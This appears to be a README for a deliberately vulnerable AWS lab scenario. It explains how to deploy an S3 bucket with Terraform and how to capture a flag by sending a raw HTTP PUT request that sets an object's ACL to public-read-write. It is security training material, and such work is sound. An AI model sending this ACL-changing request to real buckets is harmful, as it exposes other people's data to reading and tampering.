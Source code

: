 # Description

English | [中文](./README_CN.md)

This is a script that can help you quickly build a bucket object ACL reading and writing scenario

Although you may not encounter it in a real environment, have fun playing

## Deployment Environment

```bash
cd /TerraformGoat/aws/s3/object_acl_writable/
```

Configure AWS Access Credentials

```shell
aws configure
```

> You can see the access key in the AWS [Console --> Security Credentials]

```bash
terraform init
terraform apply
```

After typing yes, the scene will be built automatically and quickly

## Get Flag

![image-20220426152550418](../../../images/image-20220426152550418.png)

We see the list of files that try to access index.html

![image-20220426152651701](../../../images/image-20220426152651701.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>AccessDenied</Code><Message>Access Denied</Message></Error>
```

Access is forbidden, but we can modify whether the object can be read or written by adding `public-read-write` to `x-amz-acl` in the request header via the PUT method

![image-20220426152744234](../../../images/image-20220426152744234.png)

![image-20220426172410852](../../../images/image-20220426172410852.png)

```http
PUT /index.html?acl HTTP/1.1
Host: hxseclabteztq.s3.eu-west-1.amazonaws.com
x-amz-acl: public-read-write
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Then we get the ACL of this object and we see that all users can now read and write to it

![image-20220426172506589](../../../images/image-20220426172506589.png)

Afterwards, when you visit index.html, you successfully get the flags

![image-20220426172534934](../../../images/image-20220426172534934.png)

## Destruction Challenge

```bash
terraform destroy
```

enter yes

